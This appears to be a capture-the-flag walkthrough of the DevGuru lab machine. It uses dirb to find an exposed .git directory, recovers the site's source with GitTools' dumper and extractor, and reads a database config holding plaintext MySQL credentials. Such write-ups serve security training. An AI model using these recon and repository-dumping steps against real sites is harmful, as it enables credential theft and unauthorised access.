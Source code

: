 #### Directory Scan using Dirb

```bash
┌──(kali㉿Zeus)-[~]
└─$ dirb http://devguru.local  
                                                   
+ http://devguru.local/.git/HEAD (CODE:200|SIZE:23)                                                                          
+ http://devguru.local/.htaccess (CODE:200|SIZE:1678)                                                
+ http://devguru.local/backend (CODE:302|SIZE:410)
```


#### GitTools - Git Dumper

Resource : https://github.com/internetwache/GitTools.git

```bash
┌──(kali㉿Zeus)-[~/GitTools/Dumper]
└─$ mkdir /home/kali/Desktop/devguru

┌──(kali㉿Zeus)-[~/GitTools/Dumper]
└─$ ./gitdumper.sh http://10.0.2.254/.git/ /home/kali/Desktop/devguru/

<snip>
[+] Downloaded: objects/2f/6dd1147b2ed0fe586c5599339bd56fd7ba4471
[+] Downloaded: objects/f5/fa6054214b659ab72cc4331d45a3469744895b
[+] Downloaded: objects/b5/54feea7390da59f66c32a27b3a24f69c576936
```

#### GitTools - Git Extractor

```bash
┌──(kali㉿Zeus)-[~/GitTools/Extractor]
└─$ ./extractor.sh /home/kali/Desktop/devguru /home/kali/Desktop/devguru-extracted

[*] Creating...
[+] Found commit: 7de9115700c5656c670b34987c6fbffd39d90cf2
[+] Found file: /home/kali/Desktop/devguru-extracted/0-7de9115700c5656c670b34987c6fbffd39d90cf2/.gitignore
[+] Found file: /home/kali/Desktop/devguru-extracted/0-7de9115700c5656c670b34987c6fbffd39d90cf2/.htaccess
[+] Found file: /home/kali/Desktop/devguru-extracted/0-7de9115700c5656c670b34987c6fbffd39d90cf2/README.md
[+] Found file: /home/kali/Desktop/devguru-extracted/0-7de9115700c5656c670b34987c6fbffd39d90cf2/adminer.php
<snip>
```

#### Found Database Credentials

```bash
┌──(kali㉿Zeus)-[~/Desktop/devguru-extracted/0-7de9115700c5656c670b34987c6fbffd39d90cf2/config]
└─$ cat database.php

<snip>
'mysql' => [
            'driver'     => 'mysql',
            'engine'     => 'InnoDB',
            'host'       => 'localhost',
            'port'       => 3306,
            'database'   => 'octoberdb',
            'username'   => 'october',
            'password'   => 'SQ66EBYx4GT3byXH',
            'charset'    => 'utf8mb4',
            'collation'  => 'utf8mb4_unicode_ci',
```